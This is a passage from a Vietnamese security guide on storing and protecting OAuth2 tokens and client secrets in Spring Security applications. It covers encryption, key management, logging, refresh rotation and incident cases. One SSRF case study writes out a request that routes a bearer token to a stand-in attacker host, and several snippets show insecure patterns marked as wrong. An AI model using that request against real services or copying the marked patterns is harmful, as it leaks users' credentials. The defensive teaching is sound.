## 14. Bảo vệ token ở trạng thái nghỉ (*at rest*)

Một mô hình storage cho authorized clients có thể là:

```text
(tenant_id, registration_id, principal_key)
       |
       v
Encrypted Access Token
Encrypted Refresh Token
issued_at / expires_at / scopes
version / updated_at
```

Ví dụ schema **minh họa riêng của ứng dụng**, **không phải** schema mặc định của `JdbcOAuth2AuthorizedClientService`:

```sql
CREATE TABLE app_authorized_client (
    tenant_id             VARCHAR(128) NOT NULL,
    registration_id       VARCHAR(128) NOT NULL,
    principal_key         VARCHAR(512) NOT NULL,
    access_ciphertext     TEXT NOT NULL,
    access_issued_at      TIMESTAMP NOT NULL,
    access_expires_at     TIMESTAMP NOT NULL,
    refresh_ciphertext    TEXT,
    refresh_issued_at     TIMESTAMP,
    refresh_expires_at    TIMESTAMP,
    token_version         BIGINT NOT NULL DEFAULT 0,
    updated_at            TIMESTAMP NOT NULL,
    PRIMARY KEY (tenant_id, registration_id, principal_key)
);
```

Quyết định schema cần cân nhắc DBMS, độ chính xác timestamp/timezone, limits của ciphertext và chính sách retention. Token value **không nên để plaintext chỉ vì debug dễ hơn**.

### 14.1. Encryption at rest và TDE có giới hạn

Database Transparent Data Encryption (TDE) hoặc disk encryption giúp bảo vệ dữ liệu khi thiết bị/volume bị lấy cắp trong một số threat models. Nhưng một DB user có quyền `SELECT` thường vẫn đọc được dữ liệu sau khi DB engine giải mã.

Nếu muốn giảm rủi ro khi database bị đọc trái phép, cân nhắc **mã hóa token ở tầng ứng dụng** trước khi ghi store. Khi đó DB giữ ciphertext thay vì raw token.

Không tuyên bố rằng «đã bật TDE nên token an toàn với DBA, SQL injection hay DB dump». Các mối đe dọa này phải được đánh giá riêng.

### 14.2. Mã hóa có thể giải mã, không phải hashing

Access Token và Refresh Token cần được phục hồi để gửi tới API/token endpoint, nên không thể chỉ hash một chiều nếu ứng dụng còn phải sử dụng.

Base64 cũng không phải encryption; ciphertext phải được tạo bằng cơ chế mật mã được kiểm chứng.

Một thiết kế có thể dùng:

- AEAD như AES-GCM hoặc thuật toán được tổ chức phê duyệt.
- Khóa dữ liệu được bảo vệ bằng KMS/envelope encryption.
- Nonce/IV tuân thủ yêu cầu thuật toán, không tái sử dụng không an toàn.
- Associated Data (AAD) gắn với `tenantId`, `registrationId`, `principalKey` khi phù hợp để chống tráo ciphertext giữa các bản ghi.
- Ciphertext format có version để hỗ trợ key rotation.
- Fail closed khi decrypt thất bại.

Không tự chế cipher, lưu key ngay bên cạnh ciphertext trong cùng một bảng có cùng quyền đọc, hoặc fallback sang plaintext khi không giải mã được.

### 14.3. Key management tách khỏi database

Nếu DB chứa cả token ciphertext **và** decryption key dưới cùng một credential với quyền đọc toàn bộ, lợi ích chống lộ DB suy giảm đáng kể.

Một kiến trúc minh họa:



KMS và application IAM nên tách quyền:

- Quyền **đọc DB ciphertext**.
- Quyền **sử dụng decryption key**.
- Quyền **rotate/disable key**.
- Quyền **quản trị KMS policy**.

Tách các quyền ấy giúp tránh một vai trò bị cấp quá nhiều đặc quyền.

## 15. Mã hóa token không thay authorization trong ứng dụng

Một `OAuth2AuthorizedClientService` có API:

```java
<T extends OAuth2AuthorizedClient> T loadAuthorizedClient(
    String clientRegistrationId,
    String principalName
);
```

Việc method có thể được gọi bằng một `principalName` **không có nghĩa mọi caller được phép chọn principalName tùy ý**.

Sai:

```text
GET /admin/authorized-client?principal=alice
  -> loadAuthorizedClient("company", "alice")
  -> trả Access Token của Alice
```

Đúng hơn:

- Derive principal từ `Authentication` đã được xác thực.
- Kiểm tra user có quyền sử dụng registration/resource nào.
- Giới hạn tenant theo ngữ cảnh tin cậy, không theo query parameter tự do.
- Không có endpoint public trả raw token.
- Tầng authorized-client store enforce key/tenant isolation.
- Nếu có admin action, chỉ cho quản trị metadata hoặc thu hồi theo vai trò rõ ràng.

**Encryption at rest không ngăn được lỗi IDOR** nếu ứng dụng được phép giải mã rồi trả token cho sai user.

### 15.1. Khóa principal và tenant

Với hai tenant có cùng local user ID:

```text
tenant alpha, principal user-123
tenant beta,  principal user-123
```

Nếu token store dùng `(registrationId, principalName)` đơn giản và registration dùng chung cho hai tenant, bản ghi có thể va chạm.

Giải pháp tùy kiến trúc:

- Định danh principal/registration đã bao hàm tenant đáng tin cậy.
- Custom store có tenant partition enforced trong mọi load/save/remove.
- Tách client registrations hoặc client identities nếu policy cần.
- DB row-level security với trusted tenant context, nếu được triển khai đúng.
- Tránh dùng email làm identity key lâu dài; liên kết OIDC theo `(issuer, sub)` đã xác minh.

**Thêm cột tenant mà không sử dụng trong điều kiện query không tạo isolation.**

### 15.2. Không dùng registration làm quyền tự chọn từ user

Nếu ứng dụng có registrations `company-admin`, `company-user` và `reports-machine`, một người dùng web không được phép tự nhập:

```text
?registrationId=reports-machine
```

rồi khiến service lấy machine token quyền cao. Registration phải được chọn theo policy và mục đích nghiệp vụ, không phải string do browser cung cấp.

## 16. Ví dụ Spring Boot: quan sát metadata, không trả token

Giả sử ứng dụng Servlet đã cấu hình `oauth2Login()` và `oauth2Client()`. Một controller có thể nhận authorized client theo registration đã xác định.

```java
import java.time.Instant;
import java.util.Map;

import org.springframework.security.oauth2.client.OAuth2AuthorizedClient;
import org.springframework.security.oauth2.client.annotation.RegisteredOAuth2AuthorizedClient;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class ClientStatusController {

    @GetMapping("/internal/oauth2/client-status")
    public Map<String, Object> clientStatus(
            @RegisteredOAuth2AuthorizedClient("company")
            OAuth2AuthorizedClient authorizedClient) {

        Instant expiry = authorizedClient
            .getAccessToken().getExpiresAt();

        return Map.of(
            "registrationId",
            authorizedClient.getClientRegistration().getRegistrationId(),
            "accessTokenExpiresAt",
            expiry == null ? "unknown" : expiry.toString(),
            "hasRefreshToken",
            authorizedClient.getRefreshToken() != null
        );
    }
}
```

Ví dụ **không trả token value**. Tuy nhiên, endpoint metadata cũng có thể tiết lộ trạng thái authorization; cần bảo vệ bằng endpoint security và chỉ dùng cho người có quyền phù hợp, không mặc định công khai `/internal/**`.

Không return:

```java
// SAI: lộ Bearer credential vào JSON.
return authorizedClient.getAccessToken().getTokenValue();
```

Và không debug bằng:

```java
// KHÔNG ghi nguyên đối tượng: có thể chứa dữ liệu nhạy cảm.
log.info("OAuth2 client = {}", authorizedClient);
```

### 16.1. Tách endpoint health khỏi secret inspection

Một health check cần biết hệ thống có kết nối token endpoint được không, không nhất thiết phải lấy token của user hoặc tiết lộ client secret.

Nếu health check chủ động xin token, nó có thể tạo token requests không cần thiết và lộ secret qua diagnostic logs khi có lỗi. Cần chọn cơ chế phù hợp với mục tiêu liveness/readiness và rate limits.

## 17. Nơi lưu client secret và token nên khác nhau

Một hệ thống có thể tách thành:

```text
Secret Manager:
  company client credential
  billing service credential
  encryption keys / KMS policy

OAuth2AuthorizedClient Store:
  (registrationId, principalName) -> encrypted Access/Refresh Token

WebSession Store:
  browser session / SecurityContext / pending authorization request

Resource Server:
  receives Access Token for API, does not access client secret or Refresh Token
```

Lý do:

- Client secret là credential **cấu hình cho workload**, không phải credential theo từng user.
- Access/Refresh Token gắn với **authorization cụ thể** và principal.
- Session giữ **authentication state của browser**.
- Encryption keys cần tách khỏi dữ liệu mà chúng bảo vệ.

Tuy có thể dùng cùng công nghệ hạ tầng (ví dụ cùng một managed database/Redis cluster), nên tách **schema, namespace, IAM roles, keys, encryption và retention** theo ranh giới thực tế. Không để một vai trò support có thể đọc tất cả chỉ vì dữ liệu nằm cùng cluster.

## 18. WebSession cookie và chiến lược BFF

Trong **Backend-for-Frontend**:

1. Browser tương tác với Spring Boot qua HTTPS.
2. Browser gửi cookie session để ứng dụng nhận diện user.
3. Backend giữ Access/Refresh Token trong authorized client storage.
4. Backend gọi Resource Server bằng Access Token.
5. Frontend chỉ nhận dữ liệu nghiệp vụ.

Ưu điểm: **JavaScript trong browser không cần đọc Refresh Token hoặc client secret** của backend.

### 18.1. Thuộc tính cookie

Cookie session nên có:

- `HttpOnly` để JavaScript không đọc trực tiếp cookie.
- `Secure` khi hoạt động qua HTTPS.
- `SameSite` phù hợp flow đăng nhập/cross-site callback và CSRF policy.
- `Path` và `Domain` được giới hạn đúng ứng dụng.
- Session ID entropy mạnh, session rotation/fixation protection theo framework/policy.

Một ví dụ cấu hình Spring Boot:

```yaml
server:
  servlet:
    session:
      cookie:
        http-only: true
        secure: true
        same-site: lax
```

Đây là ví dụ **Servlet**. Với **Spring WebFlux**, WebSession và cookie configuration đi theo server/reactive stack, không mặc định áp dụng `server.servlet.session.*` cho mọi runtime. Cần xác định đúng stack trước khi sử dụng property.

`SameSite=Lax` có thể phù hợp Authorization Code callback dùng top-level GET. Nếu provider dùng `response_mode=form_post` hoặc kiến trúc cross-site khác, phải đánh giá cookie/CSRF riêng, không chỉ đổi thành `None` mà bỏ toàn bộ kiểm soát.

### 18.2. Cookie HttpOnly không thay thế CSRF protection

Một BFF dùng cookie session có thể chịu **CSRF** vì browser tự gửi cookie tới origin. Spring Security CSRF protection, SameSite policy và kiểm soát request nguy hiểm vẫn cần thiết theo threat model.

`HttpOnly` giảm rủi ro JavaScript đọc cookie, nhưng **không tự ngăn** script trong cùng origin thực hiện hành động thay mặt user nếu có XSS. Vì vậy, vẫn cần XSS defenses, CSP phù hợp, output encoding và authorization checks.

### 18.3. Không đưa Refresh Token vào localStorage để «đơn giản hóa session»

Trong BFF, đặt Refresh Token backend vào `localStorage`/`sessionStorage` khiến JavaScript có thể đọc nó, làm tăng tác động của XSS.

Với public SPA thực sự cần lưu token phía browser, phải thiết kế riêng theo OAuth2 for Browser-Based Apps/Authorization Code + PKCE, cân nhắc memory-only storage, rotation/sender constraints, token handling và threat model; không áp dụng mô hình confidential backend cho public client.

## 19. Bảo vệ token trong RAM và lifecycle runtime

Ngay cả khi token chỉ tồn tại trong memory để gửi HTTP request, process vẫn có thể bị tấn công hoặc instrument.

Cần giới hạn:

- Quyền attach debugger/profiler vào production process.
- Quyền lấy heap dump/core dump.
- Quyền đọc process environment và JVM system properties.
- Quyền truy cập shell trong container.
- Khả năng chạy code plugin/extension tùy ý trong cùng process.
- Quyền đọc trace hoặc request context của service khác.
- Quyền tải build artifact chứa config/resources.

### 19.1. Không thể «xóa String token khỏi RAM» một cách tuyệt đối

Java `String` là immutable và runtime/GC có thể giữ bản sao của secret/token trong memory một thời gian. Không giả định gọi `tokenValue = null` đảm bảo credential đã bị xóa khỏi heap ngay lập tức.

Cách thực tế là **giảm thời gian giữ và số bản sao**, hạn chế serialization/logging, bảo vệ process và tránh đưa token vào string concatenation không cần thiết. Với một số loại secret/key material, thư viện bảo mật có API xử lý bytes/zeroization phù hợp; không tự áp dụng zeroization tùy tiện cho mọi framework String rồi khẳng định an toàn tuyệt đối.

### 19.2. Không lưu credential vào request attributes không kiểm soát

Một số request context/attribute có thể bị log bởi middleware. Chỉ đưa vào đó những đối tượng/metadata mà thành phần đáng tin cậy thực sự cần; tránh một map context toàn cục chứa raw Refresh Token vì dễ bị truyền sang logging/tracing ngoài dự kiến.

## 20. Bảo vệ trong database, Redis và backups

Các yêu cầu cần đánh giá theo từng loại kho:

| Hạ tầng | Rủi ro | Biện pháp |
|---|---|---|
| **Relational DB** | DBA/SQL injection/backup đọc raw token. | Least-privilege DB user, parameterized queries, encryption, audit, network isolation. |
| **Redis/cache** | Key eviction, snapshot, admin commands, debug dump. | TLS/authz, network policy, hạn chế admin, encryption/TTL và dữ liệu tối thiểu. |
| **Shared Session Store** | Session object có thể chứa authorized client. | RBAC, backup protection, session TTL, giảm dữ liệu nhạy cảm. |
| **Object storage backup** | Snapshot token bị truy cập rộng hơn DB chính. | Encrypted backups, bucket policy, retention và key separation. |
| **Disaster-recovery replica** | Credential tồn tại ở nhiều khu vực/hệ thống. | Đồng nhất quyền truy cập, mã hóa và chính sách xóa. |

### 20.1. TTL trong cache không phải quyền OAuth2

Nếu cache có TTL 15 phút, điều đó không có nghĩa Access Token được Authorization Server cho hiệu lực 15 phút; token vẫn có `expiresAt` riêng.

Ngược lại, đặt TTL bằng Access Token expiry có thể làm mất Refresh Token cần thiết để làm mới token theo flow được thiết kế. Retention cần căn theo quyền được cấp, lifecycle và chính sách nghiệp vụ, không lấy một con số duy nhất cho tất cả.

### 20.2. Tách read/write quyền DB

Một application runtime cần load và save authorized clients; một job cleanup có thể chỉ cần xóa bản ghi hết hạn; báo cáo vận hành có thể chỉ cần view tổng hợp không chứa token.

Không cấp mọi role `SELECT access_ciphertext, refresh_ciphertext` và quyền decrypt. Nếu một service chỉ cần thống kê số authorized clients, tạo view/metric từ metadata, không phải trả nguyên bảng.

### 20.3. Backup và xóa dữ liệu

Token đã xóa khỏi database chính có thể còn trong snapshots/backup. Chính sách retention phải định nghĩa:

- Backup giữ bao lâu.
- Ai có thể restore và đọc dữ liệu.
- Backup encryption key được quản lý thế nào.
- Khi xóa tài khoản, xóa token trong primary/replica ra sao.
- Các bản backup đã hết retention được xử lý thế nào.
- Kế hoạch khôi phục không làm token cũ bị tái sử dụng trái policy sau restore.

## 21. Logging, tracing và exception handling

Credential thường rò trong **observability pipeline** hơn là từ API business chủ động công bố.

Những đối tượng có thể vô tình chứa credential:

```text
Authorization: Bearer <access-token>
Authorization: Basic <encoded-client-credentials>
POST token endpoint body: refresh_token=<refresh-token>
OAuth2AccessTokenResponse
OAuth2AuthorizedClient
ClientRegistration
Client request/response debug dump
Application exception + nested HTTP request
```

Cần kiểm soát:

- HTTP client/server filters không log `Authorization`.
- Không log token endpoint request body.
- Không log raw token response.
- Không tự gọi `toString()` trên object chứa credential.
- Tắt hoặc redact wiretap khi vận hành production.
- APM chỉ capture safe headers/fields.
- Không đưa raw query string của callback chứa `code` và `state` vào log công khai.
- Không đính kèm heap dump có token vào ticket không bảo vệ.

### 21.1. Ghi gì để debug mà không có raw token?

Nên ghi dữ liệu như:

| Metadata | Ví dụ |
|---|---|
| Registration alias | `company` |
| Grant type | `authorization_code`, `refresh_token` hoặc `client_credentials` |
| Issuer alias | `company-oidc` |
| Token remaining TTL | `240s` |
| Has refresh token | `true/false` |
| Authorization outcome | `reused`, `refreshed`, `failed` |
| OAuth2 error code | `invalid_grant`, `invalid_client` |
| API alias/status | `orders-api / 401` |
| Principal diagnostic ID | Internal opaque identifier, không phải raw token |
| Instance/correlation ID | Mã nội bộ không chứa credential |

Ví dụ log an toàn về mặt nguyên tắc:

```text
oauth2.authorized_client registration=company
principalCategory=user
refreshAttempt=true
result=invalid_grant
accessTokenValue=<not-logged>
```

Không ghi raw Refresh Token để so sánh trước/sau rotation. Nếu cần chẩn đoán race, dùng **token version nội bộ** và correlation IDs.

### 21.2. Exception từ token endpoint có thể chứa thông tin nhạy cảm

Khi Authorization Server từ chối một request, phần `error_description` hoặc exception message có thể bị đưa ra UI/log ngoài dự kiến. Cần map lỗi sang thông báo ngắn gọn, ghi error code được làm sạch và không bao gồm client secret/Refresh Token.

Không trả stack trace hoặc request body của token endpoint cho browser.

### 21.3. Metrics không dùng token làm label

Sai:

```text
oauth2_refresh_attempts{token="<refresh-token>"} 1
```

Đúng hơn:

```text
oauth2_refresh_attempts{
  registration="company",
  result="success"
} 1
```

Tránh cả email, raw subject hoặc principal name từ input tự do nếu làm tăng cardinality và lộ dữ liệu cá nhân.

## 22. Phân biệt Access Token bị lộ và Refresh Token bị lộ

Hành động ứng phó phụ thuộc credential nào lộ:

| Sự cố | Rủi ro | Hướng ứng phó |
|---|---|---|
| **Client secret lộ** | Attacker có thể xác thực như OAuth2 client ở các grants/provider cho phép. | Rotate/revoke credential tại AS; xem lại client grants, logs, token issuance và nơi secret từng có mặt. |
| **Access Token lộ** | Attacker có thể dùng token còn hiệu lực trong phạm vi API chấp nhận. | Revoke nếu provider hỗ trợ, đợi expiry khi không thể revoke, kiểm tra phạm vi sử dụng và giảm TTL khi thích hợp. |
| **Refresh Token lộ** | Attacker có thể xin token mới nếu vượt qua các ràng buộc; tác động có thể kéo dài. | Revoke Refresh Token/token family, invalidation authorized client, buộc reauthorization nếu cần, điều tra nguồn lộ. |
| **Database ciphertext lộ** | Phụ thuộc bảo vệ key và khả năng decrypt. | Xác định key compromise, revoke/rotate khi cần, kiểm tra quyền DB/KMS, backup và audit. |
| **Session cookie lộ** | Attacker có thể chiếm web session trong thời hạn/phạm vi cho phép. | Invalidate session, kiểm tra XSS/session fixation, không xem rotate Access Token là đủ. |

Đây là các hướng xử lý tổng quát; thao tác cụ thể phụ thuộc Authorization Server, token format, revocation endpoint và khả năng audit của sản phẩm.

### 22.1. Revocation khác xóa record ở client

`OAuth2AuthorizedClientService.removeAuthorizedClient(...)` chỉ xóa dữ liệu phía OAuth2 Client.

**Token revocation** là hành động gửi yêu cầu tới Authorization Server theo một API như RFC 7009 khi provider hỗ trợ. Xóa bản ghi DB không tự khiến Access Token đã bị đánh cắp mất hiệu lực tại mọi Resource Server.

Tương tự, logout một WebSession không tự thu hồi token tại OP; cần chính sách rõ cho logout/account disable/offboarding.

### 22.2. Không tự động retry Refresh Token bị revoke

Nếu token endpoint trả `invalid_grant` do Refresh Token bị revoke/expired, retry vô hạn cùng token làm tăng log/noise và có thể vi phạm chính sách provider. Cần cleanup authorized client và yêu cầu login/authorization lại khi phù hợp.

## 23. Refresh Token Rotation trong môi trường nhiều instance

Một vấn đề nghiêm trọng xảy ra khi hai request dùng **cùng Refresh Token** đồng thời:

```text
Node A load Access Token A1 + Refresh Token R1
Node B load Access Token A1 + Refresh Token R1

Node A refresh R1 -> A2/R2; R1 bị vô hiệu hóa
Node B refresh R1 -> invalid_grant / reuse detection

Node A lưu A2/R2
Node B không được phép ghi đè bằng state cũ
```

Một số provider có chính sách phát hiện reuse và thu hồi cả token family. Khi có token rotation, giới hạn truy cập không chỉ là **ai được đọc token** mà còn là **có bao nhiêu luồng được phép sử dụng Refresh Token một lần**.

### 23.1. Kiểm soát concurrency

Các chiến lược phù hợp có thể gồm:

- Single-flight theo key trong một JVM.
- Distributed lock theo `(tenant, registration, principal)` khi nhiều instance.
- Optimistic locking/version cho record.
- Đọc lại bản ghi sau khi lấy lock trước khi refresh.
- Lưu Access Token và Refresh Token mới trong một transaction nhất quán.
- Có timeout và cách xử lý node chết/DB commit lỗi.
- Không lock toàn bộ users khiến hệ thống nghẽn.

**Chỉ có database persistence không tự giải quyết race.** Phải thiết kế phối hợp giữa manager/provider, token endpoint và store.

### 23.2. Không lấy Refresh Token của user khác để fallback

Nếu refresh của user A thất bại, không dùng Refresh Token của user B hoặc Client Credentials của máy với quyền rộng hơn để giữ API call thành công. Đó là rò credential chéo principal/leo thang quyền.

### 23.3. Clock skew ảnh hưởng thời điểm gọi refresh

Spring Security có `clockSkew` để xem Access Token sắp hết hạn trước `expiresAt`. Nó không tạo timer tự refresh và không giải quyết concurrent refresh một mình. Chọn skew quá lớn có thể làm request vào vùng refresh sớm/không cần thiết, tăng tải token endpoint.

## 24. Rotation client secret an toàn

Client secret có thể cần rotate định kỳ, khi có incident hoặc khi thay đổi hệ thống quản trị.

Một quy trình khái niệm:

1. Xác định client registrations và workloads đang dùng secret.
2. Kiểm tra OP có hỗ trợ **hai credential active đồng thời** trong thời gian chuyển đổi hay không.
3. Phát hành credential mới qua kênh quản lý secret được ủy quyền.
4. Cập nhật secret manager/deployment configuration, không commit giá trị vào Git.
5. Rollout ứng dụng theo kế hoạch, xác minh token endpoint authentication bằng metadata an toàn.
6. Khi workload đã chuyển sang credential mới, thu hồi secret cũ.
7. Kiểm tra logs/audit xem credential cũ còn được sử dụng không.
8. Cập nhật runbook/ownership và retention của diagnostic artifacts.

Nếu provider **không hỗ trợ overlap**, rotation phải được lên kế hoạch để giảm gián đoạn. Không giả định mọi Authorization Server cho phép nhiều secret hoặc tự reload secret mà không restart/refresh cấu hình Spring.

### 24.1. Refresh Token và client secret sau rotation

Đổi client secret không có nghĩa mọi Refresh Token tự tiếp tục hoạt động hoặc tự hết hạn; hành vi phụ thuộc Authorization Server và client registration.

Phải xác định OP có cho phép token được phát trước rotation dùng với credential mới hay không. Không tự giữ lại client secret cũ vô thời hạn chỉ vì một số Refresh Token còn tồn tại.

### 24.2. Key rotation của token encryption khác client secret rotation

- **Client secret rotation**: thay credential để OAuth2 Client xác thực với Authorization Server.
- **Token encryption key rotation**: thay khóa dùng để mã hóa token trong database/cache.
- **Refresh Token Rotation**: provider thay Refresh Token mỗi lần refresh.
- **Access Token issuance/expiry**: provider phát token mới theo grant.

Bốn cơ chế khác nhau, có timeline và tác động vận hành khác nhau. Một cuộc rotate không tự hoàn thành những cuộc rotate còn lại.

## 25. Kubernetes, container và CI/CD

### 25.1. Kubernetes Secret không tự đồng nghĩa đã an toàn

Kubernetes Secret thường được biểu diễn dưới dạng base64 trong manifest/API. **Base64 không phải encryption.**

Bảo vệ secret trong Kubernetes còn cần:

- RBAC giới hạn service account và human access.
- Encryption at rest cho cluster data khi phù hợp.
- Không commit Secret manifest chứa giá trị thật.
- Namespace/workload isolation và network policies.
- Không cho pod không liên quan mount/đọc secret.
- Secret distribution/rotation có audit.
- Hạn chế `kubectl exec` và quyền đọc environment của production containers.

Nếu một service account có quyền `get/list secrets` trên toàn namespace mà thực tế chỉ cần đọc một secret, đó là cấp quyền quá rộng.

### 25.2. Service identity cho workload

Một môi trường có thể dùng workload identity/IAM để lấy client secret hoặc gọi KMS mà không cần lưu một khóa cloud dài hạn vào pod.

Quyền được cấp nên gắn với **service account của ứng dụng cần secret**, không gắn với tài khoản admin dùng chung. Nếu có nhiều OAuth2 registrations, cân nhắc tách workloads/roles khi policy khác nhau.

### 25.3. CI pipeline không cần production token

Thông thường, build và unit-test không cần client secret production hoặc Refresh Token của user. CI nên sử dụng dummy fixtures, mock token endpoint hoặc credential của môi trường thử nghiệm riêng.

Không cấp secret production cho mọi pull request pipeline, nhất là pipeline nhận code từ fork hoặc dependency không tin cậy. Không xuất secret vào artifact/log ngay cả khi CI có masking.

### 25.4. Container image không chứa secret

Bất kỳ giá trị secret được chèn ở `Dockerfile ENV`, layer build, copied config file hoặc image label đều có thể tồn tại trong image registry/history. Inject secret ở runtime theo cơ chế phù hợp, không đóng gói nó vào image.

## 26. Khác biệt giữa người dùng, operator và service account

Một hệ thống thường có các vai trò:

- **End user:** sử dụng chức năng web; không được xem raw Access/Refresh Token.
- **OAuth2 Client runtime:** được phép sử dụng token đúng principal và API.
- **Support operator:** có thể xem trạng thái login/refresh qua metadata, không được dump token.
- **Security administrator:** quản lý policy, revocation, audit theo phạm vi được ủy quyền.
- **DB administrator:** quản trị database, không nhất thiết được dùng KMS decrypt key.
- **CI runner:** build/deploy với credential ngắn hạn và scope tối thiểu.
- **Resource Server:** xác minh Access Token; không cần client secret/Refresh Token.

Cần áp dụng separation of duties. Ví dụ một người có thể **revoke** token của user theo quy trình nhưng không được đọc token value; một database backup operator không tự có quyền KMS decrypt production credentials.

### 26.1. Break-glass access

Khi sự cố thật sự cần truy cập đặc biệt:

- Yêu cầu lý do và phê duyệt theo policy.
- Cấp quyền tạm thời, có audit và tự hết hạn.
- Giảm scope tới registration/tenant/environment cần thiết.
- Không đưa raw secret vào chat/ticket để «nhờ người khác nhìn giúp».
- Thu hồi quyền sau khi xử lý.
- Đánh giá rotate token/secret nếu bất kỳ credential nào đã được xuất ra môi trường không được kiểm soát.

Không để tài khoản break-glass có quyền thường trực mà không theo dõi.

## 27. Ranh giới API: Resource Server phải xác minh Access Token

Một Access Token chỉ nên được Resource Server chấp nhận khi đáp ứng các điều kiện giao thức và chính sách:

- Issuer/authorization server đáng tin cậy.
- Signature hoặc token introspection hợp lệ theo format.
- Audience/resource đúng API.
- Chưa hết hạn và đáp ứng `nbf` nếu có.
- Scope/permissions được cấp.
- User/client/tenant/resource policy của API.
- Token revocation/invalidation theo khả năng provider/API.

Không tự mặc định Access Token có thể dùng ở mọi service nội bộ chỉ vì các service cùng một tổ chức.

### 27.1. API không cần Refresh Token

Resource Server không được yêu cầu client gửi Refresh Token để gọi endpoint nghiệp vụ; Refresh Token dành cho **Authorization Server token endpoint**.

Nếu một internal API thiết kế nhận Refresh Token chỉ để «gia hạn user session», phải xem lại ranh giới OAuth2/OIDC. Không làm Resource Server trở thành nơi thu gom credential dài hạn khi không cần.

### 27.2. Resource Server không cần client secret

Client secret dùng để authenticate OAuth2 Client tại Authorization Server. Resource Server nên tin **Access Token đã xác minh**, không đòi client secret gửi cùng Bearer token vào mọi request.

Nếu API có một cơ chế client authentication riêng, nó phải được thiết kế như một hợp đồng độc lập, không tùy tiện tái sử dụng OAuth2 client secret làm shared API key.

## 28. Khi nào không nên lưu Refresh Token lâu dài?

Một ứng dụng chỉ cần xử lý tác vụ trong phiên ngắn có thể không cần giữ Refresh Token qua nhiều ngày, dù provider cấp.

Các câu hỏi thiết kế:

- Người dùng có yêu cầu truy cập offline không?
- Business có cần chạy job sau khi browser/session kết thúc không?
- User có thể revoke consent bằng cách nào?
- Refresh Token có yêu cầu rotation và absolute lifetime không?
- Hệ thống có khả năng bảo vệ token DB, KMS, backup và incident response không?
- Khi tài khoản bị khóa hoặc user logout, tác vụ nền có phải ngừng không?
- Token store retention có phù hợp chính sách dữ liệu không?

**Giữ credential lâu hơn nhu cầu sử dụng làm tăng bề mặt rủi ro.** Không lưu Refresh Token vô thời hạn «để dành» nếu không có mục đích/phê duyệt rõ.

### 28.1. Offline access không phải quyền vô điều kiện

Một số OIDC providers có thể dùng scope `offline_access` để cấp quyền refresh khi user vắng mặt. Việc có scope/Refresh Token không làm mất nghĩa vụ kiểm tra consent, account status, app policy và khả năng revoke.

Ứng dụng cần mô tả cho người dùng hoặc quản trị viên cách dừng tích hợp khi không còn sử dụng.

## 29. Ví dụ trường hợp: lộ client secret ở log build

Giả sử pipeline có:

```text
Build stage chạy với OIDC_CLIENT_SECRET được inject.
Một script debug in toàn bộ environment.
CI job log được nhiều developer đọc.
```

Rủi ro không chỉ là «ai đó nhìn thấy secret một lần»: log có thể còn tồn tại trong hệ thống retention, mirror, artifact hoặc external observability.

Hướng khắc phục:

1. Xóa khả năng in environment/credential khỏi script.
2. Giới hạn quyền secret theo job, nhánh, environment và người phê duyệt.
3. Coi secret đã bị lộ và rotate tại Authorization Server.
4. Xem audit token endpoint để phát hiện bất thường (không dùng raw secret trong truy vấn).
5. Rà retention/quyền truy cập logs theo quy trình incident.
6. Bổ sung guardrails secret scanning và log redaction.

**Không chỉ xóa dòng log hiển thị trong UI rồi kết luận secret chưa từng lộ.**

## 30. Ví dụ trường hợp: Refresh Token plaintext trong database

Giả sử custom `OAuth2AuthorizedClientService` lưu:

```text
principal | registration | refresh_token_plaintext
user-A    | company      | <refresh-token-A>
user-B    | company      | <refresh-token-B>
```

Một DBA/support account chỉ cần đọc metadata nhưng có quyền `SELECT *`. Nếu tài khoản đó bị chiếm, nhiều Refresh Tokens có thể bị lấy.

Thiết kế cải thiện:

1. Không cho metadata/reporting role xem token column.
2. Mã hóa token ở tầng ứng dụng khi threat model yêu cầu.
3. Tách decryption permission ở KMS khỏi DB read permission.
4. Dùng AAD gắn token với registration/principal/tenant để hạn chế tráo ciphertext.
5. Giới hạn runtime chỉ giải mã token của principal/ngữ cảnh được phép.
6. Có cleanup/rotation/revocation khi xảy ra sự cố.
7. Bảo vệ backup/snapshot chứa ciphertext và bảo vệ key history.

Không chỉ đổi tên cột từ `refresh_token_plaintext` thành `encrypted_token` nếu dữ liệu thực chất vẫn là plaintext hoặc Base64.

## 31. Ví dụ trường hợp: WebClient bị SSRF và rò Access Token

Giả sử backend có endpoint:

```text
GET /proxy?url=https://attacker.example/collect
```

và dùng chung WebClient đã bật default OAuth2 authorized client. Khi người dùng đăng nhập gọi endpoint, backend có thể gửi Access Token tới attacker-controlled host.

Đây là lý do:

- Không dùng URL tùy ý do browser cung cấp cho WebClient mang Bearer.
- Không bật default token trên một HTTP client dùng cho nhiều hosts.
- Sử dụng WebClient riêng theo Resource Server với base URL/allowlist.
- Chỉ gắn token vào request được xác định rõ.
- Kiểm soát redirect/cross-origin forwarding.
- Giữ scopes/audiences hẹp để giảm tác động nếu token lộ.
- Xử lý lộ token bằng incident response và revocation khi có thể.

**Mã hóa token trong DB không ngăn được lỗi này**, vì runtime hợp lệ đã giải mã token rồi gửi sai đích.

## 32. Ví dụ trường hợp: logout nhưng integration vẫn còn token

Giả sử một nhân viên logout khỏi web app. HTTP session bị xóa, nhưng `OAuth2AuthorizedClientService` vẫn lưu Refresh Token để một job dùng offline.

Điều này có thể đúng **nếu** sản phẩm có explicit offline integration consent/retention policy. Nó có thể sai nghiêm trọng nếu quy định «logout phải dừng mọi truy cập thay mặt user».

Cần quyết định theo mục đích:

| Chính sách sản phẩm | Hành vi cần thiết |
|---|---|
| Logout chỉ kết thúc phiên browser | Invalidate session; token persistence có thể tiếp tục nếu authorization và consent còn hợp lệ. |
| Logout phải kết thúc delegated access | Xóa local authorized client; revoke remote token nếu provider/chính sách cho phép. |
| User rút consent | Dừng sử dụng token, cleanup và xử lý revoke/reauthorization. |
| Account bị disable | Chặn API/business access, dừng job liên quan và thu hồi theo policy. |
| Offboarding nhân viên | Xác định toàn bộ registrations/token families, sessions, offline jobs và backup retention cần xử lý. |

Không coi `removeAuthorizedClient`, invalidate session và Token Revocation Endpoint là cùng một thao tác.

## 33. Phân loại lỗi khi giới hạn quyền quá chặt hoặc cấu hình sai

Giới hạn quyền cần được thiết kế rõ ràng để phân biệt **bảo mật đúng** với **cấu hình làm hỏng flow**.

| Triệu chứng | Nguyên nhân có thể | Hướng điều tra an toàn |
|---|---|---|
| Token endpoint trả `invalid_client` | Runtime không lấy đúng secret, secret đã rotate, client auth method sai. | Kiểm tra registration/provider/secret version, không in giá trị secret. |
